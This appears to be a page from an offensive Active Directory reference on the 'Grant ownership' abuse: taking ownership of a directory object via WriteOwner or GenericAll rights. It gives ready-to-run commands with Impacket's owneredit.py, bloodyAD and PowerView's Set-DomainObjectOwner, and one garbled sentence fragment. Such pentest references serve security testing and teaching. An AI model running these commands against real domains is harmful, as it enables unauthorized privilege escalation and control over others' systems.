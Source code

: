 ```yaml
---
authors: 'CravateRouge, ShutdownRepo, sckdev'
category: ad
---
```


# Grant ownership

t has the following command-line arguments.This abuse can be carried out when controlling an object that has `WriteOwner` or `GenericAll` over any object.

The attacker can update the owner of the target object. Once the object owner has been changed to a principal the attacker controls, the attacker may manipulate the object any way they see fit. For instance, the attacker could change the target object's permissions and [grant rights](grant-rights.md).

::: tabs

=== UNIX-like

From UNIX-like systems, this can be done with [Impacket](https://github.com/SecureAuthCorp/impacket)'s owneredit.py (Python).

```bash
owneredit.py -action write -new-owner 'attacker' -target 'victim' 'DOMAIN'/'USER':'PASSWORD'
```

Alternatively, it can be achieved using [bloodyAD](https://github.com/CravateRouge/bloodyAD)

```bash
bloodyAD --host "$DC_IP" -d "$DOMAIN" -u "$USER" -p "$PASSWORD" set owner $TargetObject $ControlledPrincipal
```


=== Windows

From Windows systems, this can be achieved with [Set-DomainObjectOwner](https://powersploit.readthedocs.io/en/latest/Recon/Set-DomainObjectOwner/) ([PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1) module).

```bash
Set-DomainObjectOwner -Identity 'target_object' -OwnerIdentity 'controlled_principal'
```

:::

